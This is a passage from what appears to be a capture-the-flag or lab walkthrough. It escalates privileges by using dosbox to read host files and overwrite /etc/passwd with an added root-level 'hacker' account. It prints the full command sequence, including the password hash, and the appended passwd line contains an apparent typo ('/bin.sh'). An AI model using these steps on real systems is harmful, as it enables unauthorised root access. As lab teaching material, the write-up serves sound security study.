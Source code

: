 We can then run this:

```bash
dosbox -c 'mount c /' -c "type c:$LFILE"
```

This would mount the Linux file system within the C Drive of the termnal:

<figure><img src="../../../.gitbook/assets/image (3734).png" alt=""><figcaption></figcaption></figure>

To exploit this, first create a new hash:

```bash
$ openssl passwd -1 hello123                                
$1$rM9ydZhO$eC.2jbrxk2jETm6W64L/i1
```

Then, run these commands on a `fox` SSH session:

```bash
cp /etc/passwd easy
echo 'hacker:$1$rM9ydZhO$eC.2jbrxk2jETm6W64L/i1:0:0::/root:/bin.sh' >> easy
```

Then, on the `dosbox` instance, run this:

```bash
type C:/home/fox/easy >> C:/etc/passwd
```

We can then `ssh` in using the new `hacker` user:

<figure><img src="../../../.gitbook/assets/image (3201).png" alt=""><figcaption></figcaption></figure>
